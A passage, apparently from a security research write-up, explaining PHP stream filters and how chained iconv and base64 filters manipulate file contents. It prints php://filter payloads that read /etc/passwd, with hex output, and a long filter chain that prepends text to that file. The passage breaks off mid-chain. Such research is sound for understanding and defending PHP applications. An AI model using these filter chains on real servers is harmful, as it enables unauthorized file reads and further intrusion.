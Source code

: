 - `string.upper`, which converts a string to uppercase
- `string.lower`, which converts a string to lowercase
- `string.rot13`, which does some BC crypto
- `convert.iconv.X.Y`, which converts charset from `X` to `Y`

Let's take a look at the last filter: `convert.iconv.X.Y`. Say that I need to convert my file from UTF8 to UTF16. I can use:

```
php://filter/convert.iconv.UTF-8.UTF-16/resource=/etc/passwd
```

Which gives (in hex form):

```
00000000: fffe 7200 6f00 6f00 7400 3a00 7800 3a00  ..r.o.o.t.:.x.:.
00000010: 3000 3a00 3000 3a00 7200 6f00 6f00 7400  0.:.0.:.r.o.o.t.

                                ...

00000a40: 2f00 6200 6900 6e00 2f00 6600 6100 6c00  /.b.i.n./.f.a.l.
00000a50: 7300 6500 0a00                           s.e...
```

The multitude of filters and the possibility to chain them lead to some great research on PHP, such as [here](https://gynvael.coldwind.pl/?id=671), [here](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d), or [here](https://github.com/DownUnderCTF/Challenges_2022_Public/blob/main/web/minimal-php/solve/solution.py). In fact, using precisely picked filters (a *filter chain*), attackers can do fantastic things, such as [changing the contents of a file entirely](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it), or using an [error-based oracle to extract its bytes one-by-one](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle).

For instance, here is a filter chain that preprends `Hello world!` to `/etc/passwd`:

```
php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|
convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|
convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.IBM860.UTF16|
convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|
convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|
convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|
convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|
convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.JS.UNICODE|
convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|
convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|
convert.iconv.855.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|
convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|
convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|
convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|
convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.ISO-8859-14.UCS2|
convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|
convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|
convert.iconv.855.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|
convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L5.UTF-32|
convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|
convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|
convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.ISO2022KR.UTF16|
convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|
convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|
convert.iconv.855.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|
convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|
convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|
convert.iconv.855.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|
```